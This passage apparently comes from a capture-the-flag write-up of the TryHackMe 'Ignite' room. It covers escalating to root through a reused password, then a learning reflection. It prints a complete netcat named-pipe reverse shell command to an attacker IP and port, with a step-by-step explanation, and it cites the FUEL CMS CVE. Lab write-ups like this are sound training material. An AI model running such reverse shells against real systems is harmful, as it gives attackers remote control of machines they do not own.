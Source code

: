Connecting to the MySQL server and searching through the fuel_schema database, we don't find any useful information so let's move on to other privesc techniques.

*At this stage, I went through the various techniques that I remember such as searching for misconfigured SUID binaries, writable files, and even an execution of LinPEAS but nothing stood out to me. However, it clicked that if the MySQL username and password combo is root, then maybe the system root user also has the same password.*


![root flag](/assets/img/posts/thm-ignite/root-flag.jpg)

And voila! Although it isn't visible, the password for the system root user was `mememe`. We have also found the root flag meaning that this box is done!
https://unicornsec.com/home/tryhackme-ignite
## Useful Commands

### Netcat OpenBSD Reverse Shell

`rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.6.5.103 4444 >/tmp/f`

Courtesy of Jared from unicornsec [^jared], I'll use his fantastic summary of this command:
- `rm /tmp/f`: remove the file if it exists
- `mkfifo /tmp/f`: create a named pipe
- `cat /tmp/f |`:  pipe the contents of the named pipe into the next command
- `/bin/bash -i 2>&1 |`: invoke interactive mode with Bash, redirect stderr to stdout and pipe that into the next command
- `nc 10.6.5.103 4444 > /tmp/f`: connect netcat to the remote IP/port and output to the named pipe

From what I understand, this creates a loop where the data passed to netcat from the attacker machine is sent to the named pipe, which is then piped to the bash process which then pipes the output into the netcat connection and repeat.

## Reflection

The first time I completed this room, I skimmed through this page without reading it carefully and moved onto directory enumeration, brute-force authentication attempts. This made my life far more difficult and I had to look for a hint in writeups to understand how to proceed when it came to the privilege escalation vector. I didn't bother to take my time and read through the landing page to understand all the details of the application.

On another note, as I read through other walkthroughs to understand how others approach this box, I realize that I do not take the time and effort to understand how specific commands or exploits work. Even though I'm not an exploit dev, it's important to take the time to understand what the exploit is doing at a higher level as this elevates your knowledge and puts me slightly above the level of "script kiddie".

With the above two points, it's important to slow down, take the time to understand the finer details as I may miss out on crucial information and use the opportunity to learn the aspects (commands, exploits, etc) that seem foreign to me.


[^cve]: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763>
[^reverse]: <https://github.com/swisskyrepo/PayloadsAllTheThings>
[^github]: <https://github.com/daylightstudio/FUEL-CMS/issues/478>
[^jared]: <https://unicornsec.com/home/tryhackme-ignite>